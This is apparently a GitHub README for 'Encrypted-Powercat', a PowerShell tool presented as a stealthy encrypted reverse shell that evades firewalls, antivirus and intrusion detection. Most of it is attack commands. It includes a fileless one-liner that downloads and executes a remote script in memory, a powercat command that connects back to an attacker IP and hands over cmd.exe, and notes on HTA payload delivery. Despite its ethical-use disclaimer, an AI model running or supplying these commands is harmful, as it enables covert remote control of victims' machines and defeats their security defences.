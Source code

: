# Encrypted-Powercat

Encrypted-Powercat is a custom implementation of the Powercat utility that establishes a stealthy, encrypted reverse shell while evading detection by firewalls, antivirus solutions, and Intrusion Detection Systems (IDS). This project demonstrates the use of encryption and PowerShell-based techniques to achieve secure and stealthy communication.

## Features

- **Encrypted Communication:** Ensures secure data transmission using encryption.
- **Fileless Execution:** Executes scripts directly in memory to evade file-based detection mechanisms.
- **Firewall Evasion:** Utilizes commonly allowed ports, such as port 443, to bypass network firewalls.
- **Detection Evasion:** Combines payload obfuscation and in-memory execution to avoid antivirus and IDS/IPS detection.

---

## How It Works

1. **Powercat Script**: 
   - Powercat is downloaded and executed directly in memory using a single PowerShell command.
   - Example Command:
     ```powershell
     IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/zakaria-ahmd20/encrypted-powercat/main/powercat.ps1');
     ```

2. **Reverse Shell Execution**:
   - The reverse shell is established by executing the following command after loading the script:
     ```powershell
     powercat -c <attacker-ip> -p <port> -e cmd.exe -ge
     ```
   - Options:
     - `-c`: Connects to the specified IP (attacker's machine).
     - `-p`: Specifies the port to connect to.
     - `-e`: Executes the specified program (e.g., cmd.exe).
     - `-ge`: Enables encryption for secure communication.

3. **Encrypted Session Decryption**:
   - On the attacker's machine, a Python script (`decrypt.py`) is used to decrypt incoming data.

4. **Payload Delivery**:
   - The project demonstrates delivering payloads via trusted methods, such as using an HTA file, to further evade detection.

---

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/zakaria-ahmd20/encrypted-powercat.git
   cd encrypted-powercat
   ```

2. Run the reverse shell command from the target machine:
   ```powershell
   IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/zakaria-ahmd20/encrypted-powercat/main/powercat.ps1');
   powercat -c <attacker-ip> -p <port> -e cmd.exe -ge
   ```

3. Decrypt the session data on the attacker's machine using the provided Python script:
   ```bash
   python3 decrypt.py
   ```

---

## Requirements

- **Target Machine:**
  - PowerShell (built-in on Windows systems)
  - Internet access (to download the script)

- **Attacker Machine:**
  - Python 3.x
  - Network listener (e.g., Netcat or Powercat) on the specified port

---

## Security and Ethical Use

This tool is intended for educational and authorized security testing purposes only. Unauthorized use of this project to access systems without explicit permission is illegal and unethical.

---

## License

This project is licensed under the MIT License. See the `LICENSE` file for more details.

---

## Contributing

Contributions to improve or expand the functionality of this project are welcome. Please open an issue or submit a pull request.

---

## Acknowledgments

- Inspired by the original Powercat utility.
- Special thanks to the open-source community for providing tools and techniques that made this project possible.

---

## Disclaimer

Use this tool responsibly. The author is not responsible for any misuse or damages caused by this project.

